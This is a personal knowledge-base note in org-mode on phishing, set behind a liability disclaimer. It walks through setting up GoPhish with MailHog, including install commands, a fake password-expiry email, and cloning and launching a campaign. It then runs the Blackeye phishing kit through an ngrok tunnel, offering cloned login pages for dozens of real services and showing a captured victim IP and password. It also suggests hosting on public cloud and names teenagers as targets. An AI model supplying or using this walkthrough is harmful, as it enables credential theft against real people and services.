 #+title:Phishing
#+OPTIONS: \n:t
#+roam_tags: Social_Engineering
#+attr_html: :width 100px

[WARNING: WRITER ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY USING TOOLS MENTIONED IN THIS REPO. IT IS ILLEGAL TO USE THIS TOOLS WITHOUT MUTUAL CONSENT, YOU'VE BEEN WARNED!]

Phishing is a type of attack that are using E-mail, voice (Vishing), or SMS (smishing) to attack its target. This kind of attack can be pointed into an individual which is called as spear phishing. Phishing has been around since 90s targeting America Online (AOL). In these day and age, phishing is disguised in many ways, from E-mail notification of a big company sending you money, or even from a fake account that are sending you "love letter" with malware in disguise.

** How does it work?

Phishing can be done in multiple ways, while phishing itself can be run through E-mail, you might want to use other means of attack if you are targeting a specific person that might or might not use E-mail. Whatsapp, social media, can be used for Phishing campaign, it is because the educational needs in social media todays are mostly teenagers, which is a possible target for phishing.

Phishing servers are usually run on cloud services, or can be hosted local in a computer, but since Phishers are sneaky, one might use public instances to do the attack. Each fake E-mail is sent to victim(s) E-mail address in lieu of other means of attack said above. Digital Ocean or AWS might be a good place to hosts this server. While the E-mail is sent, Phishers might get notice when the link is clicked or opened, if the E-mail is read or not, if the Landing Page sent already have forms filled by victim(s) or not, and any information related to the campaign.

** Gophish

WEB: https://getgophish.com/
GIT: https://github.com/gophish/gophish

GoPhish can be used to create a campaign based Phishing environment, for this environment to work, we have to setup some boundaries first, one rule of thumb, do not use your personal mail address for this. =Mailhog= will help assigning email@localhost.localdomain to hog all the mail that sent or receive during the campaign, it is possible to use other E-mail address, but there's some issues that when sent to an E-mail address based on Google, it is possible that it will already flagged as spam or something else to help with the security.

There are multiple preparation that you can do to help with assigning things later for gophish:
- AWS, Azure, Digital Ocean, or local can be used as the base for GoPhish server.
- GoPhish might want E-mail address like Mailhog or other E-mail services that have smtp available can be used.
- Target E-mail, E-mail content, and a Landing Page, are needed for GoPhish to work.
  + GoPhish might want a Landing Page that are possible to be duplicated, as of writing, it is currently not possible to copy Facebook based web address, but your mileage may vary.
  + GoPhish also want E-mails that can use smtp, the username and password in the page needs your e-mail credentials, this is why it is not even recommended to use your personal address, use E-mail services that are not connected to you by any means.

#+begin_src shell
# GoPhish
$ mkdir -p ~/opt/gophish
$ cd ~/opt/gophish
$ curl -L https://github.com/gophish/gophish/releases/download/0.7.1/gophish-v0.7.1-linux-64bit.zip -o gophish.zip
$ unzip gophish.zip

# MailHog
$ sudo apt-get -y install golang-go
$ go get github.com/mailhog/MailHog
#+end_src

#+RESULTS:

Once you clone GoPhish and installing MailHog, you can then run it via command line by running:

#+begin_src shell
# 1st Terminal
$ cd ~/opt/gophish
$ sudo ./gophish

# 2nd Terminal
$ cd ~/go/bin
$ sudo ./MailHog
#+end_src

Once you run it on *separate* terminal, now we need to go to https://localhost:3333 for GoPhish and https://localhost:8025 for MailHog. There are some templates you have to fill before we launch the attack, this will be discussed on the next section. Username for *GoPhish* is =admin= & =gophish=.

*** Sending Profile

[[./Assets/GoPhish_Sending_Profiles.png]]

You might want to use port =1025= for smtp, it will be already configured if you run MailHog, this will send email to that smtp address, also you can try =Send Test Email= to check if it is sending to the right address.


*** Landing Pages

[[./Assets/GoPhish_Landing_Pages.png]]
[[./Assets/GoPhish_Landing_Pages_URL.png]]

Here will be where you import the site, click on import and include URL to the page that you want to clone, also you can redirect it to the real address.

*** E-Mail Templates

[[./Assets/GoPhish_Email.png]]

You can use Templates as above, it is taken from official GoPhish documentation page, you might want to go [[https://docs.getgophish.com/user-guide/building-your-first-campaign/creating-the-template][here]]. It is also possible to include attachments using this email, since it is only for testing purpose, it will attached nothing.

#+begin_src
Subject {{.Email}}

{{.FirstName}},

The password for {{.Email}} has expired.

Please reset your password here.

Thanks, Campus Ground

{{.Tracker}}
#+end_src

[[./Assets/GoPhish_Email_URL.png]]

To include the url, you have to highlight the word here and click *link* button in the html editor, it will then brought you this window to include your URL.

*** Groups

[[./Assets/GoPhish_Groups.png]]


Since it is possible if you want to send it to multiple people, you can have it inside the groups, you can import it using CSVs.

*** Launching Campaign

After all the preparation, we can then go to *Campaign* page and create a new campaign, you can also clone or edit your campaign here.

[[./Assets/GoPhish_Campaign.png]]

Be sure to point the URL to your localhost for this, or to the server you're running if you're using instances like Digital Ocean or AWS.

*** Dashboard

You can then see your victims and overall status from the dashboard area.

[[./Assets/GoPhish_Dashboard.png]]
[[./Assets/GoPhish_Results.png]]


*** MailHog

This will be the E-mail that you get from GoPhish.

[[./Assets/MailHog.png]]


** Blackeye

GIT: https://github.com/An0nUD4Y/blackeye

Installation:
- PHP ( Should be available in Kali Linux )
- Ngrok ( Create your account first )
- GIthub Account ( Easier )

[ WARNING ] This preparation are needed if =blackeye.sh= not working as intended, as precaution, we have to manually run the ngrok server and serve the php to our http://localhost:8080 ( or another port ) to get it to works. Go to next section to actually run =blackeye=.

Here is the command you need to install and setup ngrok manually, though you will proabably be downloading this again in =blackeye=, so you might want to copy ngrok to your =blackeye= folder later. Authtoken can be seen [[https://dashboard.ngrok.com/get-started/your-authtoken][here]].

#+begin_src shell
$ git clone https://github.com/An0nUD4Y/blackeye
$ cd blackeye
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
$ unzip ngrok-stable-linux-amd64.zip
$ ./ngrok authtoken 0000000000000000000000000000000000000000000000000
#+end_src

If you run ngrok server by itself, it will be seen like this:

#+begin_src shell
ngrok by @inconshreveable

Session Status                online
Account                       account-name (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://alphanumeric.ngrok.io -> http://localhost:8080
Forwarding                    https://alphanumeric.ngrok.io -> http://localhost:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              22      0       0.25    0.07    0.06    3.14
#+end_src

As of when this articles made, you can access http://127.0.0.1:4040/status to check ngrok status and below =command_line= section, you will see your URL that can be used.

#+begin_src shell
$ sudo ./blackeye.sh # Password Needed

[sudo] password for archaict:

     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay
          [02] Facebook       [18] Adobe ID       [34] Amazon
          [03] Snapchat       [19] Shopify        [35] iCloud
          [04] Twitter        [20] Messenger      [36] Spotify
          [05] Github         [21] GitLab         [37] Netflix
          [06] Google         [22] Twitch         [38] Custom
          [07] Origin         [23] MySpace
          [08] Yahoo          [24] Badoo
          [09] Linkedin       [25] VK
          [10] Protonmail     [26] Yandex
          [11] Wordpress      [27] devianART
          [12] Microsoft      [28] Wi-Fi
          [13] IGFollowers    [29] PayPal
          [14] Pinterest      [30] Steam
          [15] Apple ID       [31] Bitcoin
          [16] Verizon        [32] Playstation

[*] Choose an option: 1 # choose your poison

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: # check http://localhost:4040
[*] Waiting victim open the link ...

[*] IP Found!
[*] Victim IP: 127.0.0.1 # It will be your public IP here (SECRET)
[*] User-Agent:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/XX.0
[*] Saved: instagram/saved.ip.txt

[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: helloWorld
[*] Password:  12345678
[*] Saved: sites/instagram/saved.usernames.txt
#+end_src

If your php is not connected, you can do this instead before running =blackeye=.

#+begin_src shell
$ php -d /path/to/blackeye/sites/instagram -S localhost:8080
#+end_src
